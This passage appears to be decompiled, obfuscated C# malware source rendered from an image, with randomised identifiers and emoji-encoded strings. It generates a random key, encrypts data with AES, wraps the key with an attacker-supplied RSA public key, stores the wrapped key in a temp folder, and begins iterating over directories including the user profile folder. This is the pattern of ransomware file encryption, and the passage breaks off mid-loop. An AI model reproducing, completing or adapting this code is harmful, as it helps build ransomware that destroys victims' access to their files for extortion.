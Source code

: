 ```
      ((SymmetricAlgorithm) aes).Padding = (PaddingMode) 2;
      byte[] numArray = cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.qUipnfARjQBaBGtORUDuGAblGcanrkCStJ(cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83C\uDE01ℹ️⛵\uD83D\uDC9A⏩\uD83D\uDC7B\uD83D\uDD0E\uD83C\uDF7A\uD83D\uDC23ℹ️⛵\uD83C\uDF7B\uD83D\uDC58ℹ️\uD83D\uDCAF\uD83D\uDE82⏩ℹ️\uD83D\uDE82\uD83C\uDF46\uD83C\uDE01\uD83D\uDCC9\uD83D\uDDFF\uD83D\uDEB49️⃣\uD83D\uDC7B\uD83D\uDC5E\uD83D\uDC5E\uD83D\uDC23\uD83C\uDF75\uD83D\uDD0C\uD83D\uDD0C"));
      key = new byte[32 /*0x20*/];
      iv = new byte[16 /*0x10*/];
      Buffer.BlockCopy((Array) numArray, 0, (Array) key, 0, 32 /*0x20*/);
      Buffer.BlockCopy((Array) numArray, 16 /*0x10*/, (Array) iv, 0, 16 /*0x10*/);
      using (ICryptoTransform encryptor = ((SymmetricAlgorithm) aes).CreateEncryptor(key, iv))
        return encryptor.TransformFinalBlock(data, 0, data.Length);
    }
  }

  private static byte[] ddAxJkAciSG(byte[] data, string publicKey)
  {
    using (RSA rsa = RSA.Create())
    {
      int num;
      ((AsymmetricAlgorithm) rsa).ImportSubjectPublicKeyInfo(ReadOnlySpan<byte>.op_Implicit(Convert.FromBase64String(publicKey)), ref num);
      return rsa.Encrypt(data, RSAEncryptionPadding.OaepSHA256);
    }
  }

  private static string eOUFdPmHAHcqPJQRyafSXBf(int length)
  {
    byte[] numArray = new byte[length];
    using (RNGCryptoServiceProvider cryptoServiceProvider = new RNGCryptoServiceProvider())
    {
      ((RandomNumberGenerator) cryptoServiceProvider).GetBytes(numArray);
      StringBuilder stringBuilder = new StringBuilder(length);
      foreach (byte num in numArray)
        stringBuilder.Append("KitakitasuruOPQRSTUVWXYZKitakitasuruopqrstuvwxyz"[(int) num % "KitakitasuruOPQRSTUVWXYZKitakitasuruopqrstuvwxyz".Length]);
      return stringBuilder.ToString();
    }
  }

  private static void eLzUcATejKPOKKMlaYnpnwtwzJclOfwjWFRoaxlxd(string[] dirs, string pubKey)
  {
    ISAAC isaac = new ISAAC(cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.OVixtxAlZgODrcwOVgagxeWAk());
    byte[] numArray1 = new byte[32 /*0x20*/];
    for (int index = 0; index < numArray1.Length; ++index)
      numArray1[index] = (byte) isaac.Next();
    byte[] key;
    byte[] iv;
    byte[] numArray2 = cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.ddAxJkAciSG(Enumerable.ToArray<byte>(Enumerable.Concat<byte>(Enumerable.Concat<byte>((IEnumerable<byte>) cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.lSJNJosACuzaDIkQoaEIkvSckaEPgrBKmY(numArray1, out key, out iv), (IEnumerable<byte>) key), (IEnumerable<byte>) iv)), pubKey);
    string str1 = Path.Combine(Path.GetTempPath(), cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\uD83D\uDD01ℹ️\uD83D\uDD0E\uD83C\uDF87\uD83C\uDE01⚽\uD83C\uDD7F️\uD83D\uDE8F⏩\uD83C\uDF7B\uD83D\uDDFF\uD83C\uDF6F") + Guid.NewGuid().ToString());
    Directory.CreateDirectory(str1);
    File.WriteAllBytes(Path.Combine(str1, cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("9️⃣\uD83D\uDC0F\uD83D\uDC5E\uD83C\uDF7A\uD83C\uDE01\uD83D\uDEB9⛵\uD83D\uDC88⏩\uD83D\uDCC9\uD83C\uDF63\uD83D\uDD0C")), numArray2);
    List<string> stringList = new List<string>();
    string folderPath = Environment.GetFolderPath((Environment.SpecialFolder) 40);
    foreach (string dir in dirs)
    {
```